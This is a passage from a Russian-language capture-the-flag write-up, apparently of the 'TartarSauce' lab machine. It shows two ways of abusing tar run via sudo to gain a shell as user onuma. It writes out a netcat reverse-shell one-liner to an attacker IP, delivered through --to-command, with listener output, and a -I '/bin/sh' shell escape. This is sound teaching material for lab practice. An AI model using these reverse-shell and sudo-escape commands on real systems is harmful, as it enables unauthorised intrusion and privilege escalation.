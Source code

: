 ## tar --to-command
Флаг `--to-command` позволяет отправить распакованный файл на выполнения указанному процессу, поэтому план таков:
  1. Создать bash-нагрузку с реверс-шеллом до своей машины.
  2. Запаковать ее в `.tar`.
  3. Распаковать ее tar'ом, и передать на исполнения bash-интерпретатору с помощью `--to-command /bin/bash`.
  4. Поймать шелл у себя на netcat.

```text
www-data@TartarSauce:/dev/shm$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f' > .sh3ll.sh
www-data@TartarSauce:/dev/shm$ tar -cvf .sh3ll.tar .sh3ll.sh
.sh3ll.sh

www-data@TartarSauce:/dev/shm$ sudo -u onuma /bin/tar -xvf .sh3ll.tar --to-command /bin/bash
.sh3ll.sh
rm: cannot remove '/tmp/f': No such file or directory

```

```text
root@kali:~# nc -nlvvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:51608.

$ whoami
onuma

$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

### user.txt
```text
$ cat /home/onuma/user.txt
b2d6ec45????????????????????????
```

## tar --use-compress-program
Флагом `--use-compress-program` (или `-I`) можно явно задать другую программу для сжатия данных, если пользователь не удовлетворен тем, что ему предлагает по умолчанию tar.

Мы же злостно проэксплуатируем эту опцию, подсунув tar'у вместо утилиты для архивирования обычный `/bin/sh` с волшебными редиректами для входных и выходных данных, что дарует нам пользовательский шелл:
```text
www-data@TartarSauce:/dev/shm$ sudo -u onuma /bin/tar -xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
$ whoami
onuma

$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```
